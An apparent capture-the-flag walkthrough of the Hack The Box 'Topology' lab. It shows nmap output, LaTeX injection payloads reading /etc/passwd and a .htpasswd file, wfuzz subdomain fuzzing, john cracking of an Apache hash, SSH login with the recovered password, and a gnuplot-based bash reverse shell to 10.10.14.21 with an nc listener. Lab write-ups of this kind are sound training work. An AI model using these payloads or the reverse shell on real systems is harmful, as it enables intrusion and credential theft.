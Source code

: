 
Nmap scanning:

~~~
nmap 10.10.11.217 -sC -sV
~~~

~~~
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-26 12:01 EDT
Nmap scan report for 10.10.11.217
Host is up (0.44s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.10 seconds
~~~~


![[VirtualBox_kali_26_06_2023_16_51_08.png]]

webpage in the open port 

![[VirtualBox_kali_26_06_2023_16_51_23.png]]

redirected page

LaTeX allows two writing modes for mathematical expressions: the inline math mode and display math mode: **inline math mode is used to write formulas that are part of a paragraph**.

inline math mode syntax ($....$)

~~~
$\lstinputlisting{/etc/hosts}$
~~~

![[VirtualBox_kali_26_06_2023_16_51_44.png]]


~~~
$\lstinputlisting{/etc/passwd}$
~~~


![[VirtualBox_kali_26_06_2023_17_00_04.png]]


~~~
wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 --hw=545  -H "Host: FUZZ.topology.htb" http://topology.htb
~~~


![[VirtualBox_kali_26_06_2023_17_38_07.png]]

![[VirtualBox_kali_04_07_2023_06_01_55.png]]

~~~
$\lstinputlisting{/var/www/dev/.htpasswd}$
~~~

![[VirtualBox_kali_26_06_2023_17_51_33.png]]

we find the password in hash type we decrypt with john tool

$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0  decrypt this 

~~~
john -w=/home/subhash/Downloads/rockyou.txt topology.txt
~~~


![[VirtualBox_kali_26_06_2023_18_50_11.png]]

username  : vdaisley
pass:calculus20

![[VirtualBox_kali_04_07_2023_05_56_53.png]]


~~~
ssh vdaisley@topology.htb
~~~

~~~
vdaisley@topology.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

vdaisley@topology:~$ ls
user.txt
vdaisley@topology:~$ cat user.txt
53e22684b427042e237215ac88b129d9
~~~


user.txt:53e22684b427042e237215ac88b129d9



![[VirtualBox_kali_04_07_2023_15_07_04.png]]

Payload
~~~
echo "system(\"bash -c 'bash -i >& /dev/tcp/10.10.14.21/443 0>&1'\")" >asdf.plt
~~~


Reverse shell:

~~~
nc -lvnp 443
~~~


![[VirtualBox_kali_04_07_2023_15_06_47.png]]

root.txt
e7e3dff45dd2d11aa27cfae7cb60607e

finished 🔥🔥😁


Reference:
https://httpd.apache.org/docs/2.4/programs/htpasswd.html
https://www.kali.org/tools/wfuzz/
https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection#latex-injection
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/
https://www.youtube.com/watch?v=H3SSO3B62U4&ab_channel=AbhishekMorla




